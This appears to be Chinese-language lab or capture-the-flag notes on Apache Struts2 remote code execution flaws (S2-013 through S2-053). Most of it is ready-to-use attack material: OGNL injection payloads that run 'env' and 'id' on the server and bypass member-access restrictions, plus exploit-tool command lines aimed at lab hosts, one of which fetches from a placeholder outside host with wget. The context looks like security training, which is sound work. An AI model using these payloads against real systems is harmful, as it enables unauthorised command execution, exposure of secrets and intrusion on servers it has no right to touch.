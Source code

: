 打印env环境变量

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

**s2-013**

**s2-015**

影响版本: 2.0.0 - 2.3.14.2

**s2-045**

**s2-048**

影响版本: 2.0.0 - 2.3.32

漏洞利用工具：https://github.com/dragoneeg/Struts2-048

`python Struts048.py http://node4.buuoj.cn:28719/integration/saveGangster.action`

`python Struts048.py http://node4.buuoj.cn:28719/integration/saveGangster.action whoami`

![image](img/s2-048.png)

**s2-052**

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

启用 Struts REST 插件并使用 XStream 组件对 XML 进行反序列操作时，未对数据内容进行有效验证，可被攻击者进行远程代码执行攻击(RCE)。

漏洞测试工具:

* https://github.com/mazen160/struts-pwn\_CVE-2017-9805

```
Python struts-pwn.py --exploit --url "http://node4.buuoj.cn:26796/orders/4/edit" -c "wget ip:port"
```

**s2-053**

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

漏洞复现：(以下是一个提交页面)

http://your-ip:8080/hello.action

输入如下payload：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```
